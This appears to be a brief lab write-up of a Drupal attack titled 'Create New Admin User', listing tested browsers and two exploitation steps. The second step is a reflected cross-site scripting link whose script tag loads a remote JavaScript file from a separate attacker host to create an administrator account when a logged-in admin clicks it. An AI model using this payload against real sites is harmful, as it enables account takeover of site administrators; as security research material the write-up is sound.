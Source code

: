 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. victim user (with administrative privileges) logs in

http://192.168.5.17/user/login

2. victim user clicks link

```
http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.13/createAdminAccDrupal.js></script>
```

## Screenshots

![Image](screenshots/Drupal_-_create_new_admin_-_1-1.png)
